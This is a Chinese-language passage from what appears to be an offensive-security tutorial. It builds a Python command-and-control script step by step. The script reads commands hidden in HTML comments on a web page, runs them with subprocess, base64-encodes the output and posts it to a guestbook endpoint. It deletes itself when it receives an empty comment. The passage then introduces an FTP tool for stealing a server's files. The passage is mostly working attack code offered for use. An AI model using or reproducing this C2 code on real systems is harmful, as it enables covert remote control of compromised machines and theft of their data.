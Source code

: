 由于此脚本具有内置的自删除方法，因此我们可以设置它以以下循环永远运行：

```py
while 1:
```

我们发出请求，检查我们预先配置的页面上是否有任何评论。如果有，我们将它们放在一个列表中。我们使用非常基本的`regex`来执行此检查：

```py
  req = requests.get("http://127.0.0.1")
  comments = re.findall('<!--(.*)-->',req.text)
```

我们要做的第一件事是检查是否有空评论。这对脚本来说意味着它应该删除自己，这是一个非常重要的无人值守 C2 脚本机制。如果您希望脚本删除自己，只需在页面上留下一个空评论。脚本通过查找自己的名称并删除该名称来删除自己：

```py
for comment in comments:
    if comment = " ":
      os.delete(__file__)
```

如果评论不为空，我们尝试使用`subprocess`命令将其传递给系统。重要的是你在命令上使用`.split()`来考虑`subprocess`如何处理多部分命令。我们使用`.check_output`将命令直接返回给我们分配的变量：

```py
else:
      try:
        response = subprocess.check_output(comment.split())
```

如果命令失败，我们将响应值设置为`命令失败`：

```py
      except:
        response = "command fail"
```

我们取`response`变量并将其分配给与字典中的 PHP 脚本匹配的键。在这种情况下，字段名为`comment`，因此我们将输出分配给评论。我们对输出进行 base64 编码，以便考虑到任何可能干扰我们脚本的随机变量，例如空格或代码：

```py
data={"comment":(''.join(response)).encode("base64")}
```

现在数据已经分配，我们将其发送到我们预先配置的服务器的`POST`请求中，并等待`30`秒再次检查评论中是否有进一步的指示：

```py
newreq = requests.post("http://127.0.0.1/addguestbook.php", data=data)
  time.sleep(30)
```

# 创建 FTP C2

这个脚本是一个快速而肮脏的文件窃取工具。它沿着目录直线运行，抓取它接触到的一切。然后将这些导出到它指向的`FTP`目录。在您可以放置文件并希望快速获取服务器内容的情况下，这是一个理想的起点。

我们将创建一个连接到 FTP 的脚本，获取当前目录中的文件，并将它们导出到 FTP。然后它跳到下一个目录并重复。当它遇到两个相同的目录列表（也就是说，它到达了根目录）时，它就会停止。

## 入门
